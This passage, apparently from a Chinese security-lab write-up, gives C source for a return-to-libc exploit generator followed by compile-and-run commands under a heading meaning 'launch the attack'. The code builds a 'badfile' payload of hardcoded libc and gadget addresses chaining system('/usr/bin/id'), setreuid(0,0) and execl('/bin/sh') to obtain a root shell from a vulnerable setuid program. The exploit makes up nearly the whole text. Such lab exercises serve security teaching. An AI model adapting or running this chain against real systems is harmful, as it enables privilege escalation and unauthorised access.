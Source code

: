 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[200];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
	
	// system("/usr/bin/id");
	*(long *) &buf[97] = 0x23456789;//i
	*(long *) &buf[113] = 0xb7e5f430;//system
	*(long *) &buf[117] = 0x80485cf ;// pop
	*(long *) &buf[121] = 0xbffffda0 ;// /usr/bin/id
	
	//setreuid(0,0);
	*(long *) &buf[125] = 0xb7f07870;// Setreuid
	*(long *) &buf[129] = 0x80485ce ;// pop-pop-ret
	*(long *) &buf[133] = 0x00000000 ;// 0
	*(long *) &buf[137] = 00000000;// 0
	
	//system("id");
	*(long *) &buf[141] = 0xb7e5f430; //system
	*(long *) &buf[145] = 0x80485cf ;// pop
	*(long *) &buf[149] =0xbffffcf9 ;// id

	//execl("/bin/sh","sh",NULL);
	*(long *) &buf[153] =0xb7ed85f0 ;// excel
	*(long *) &buf[157] =0x80485cd;// pop- pop- pop-ret
	*(long *) &buf[161] =0xbffff631;// /bin/sh
	*(long *) &buf[165] =0xbffffe8a;// sh
	*(long *) &buf[169] = 0x00000000 ;// 0

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

#### 发起攻击——决战

```c
gcc rtlatt.c -o rt
rt
q3
```
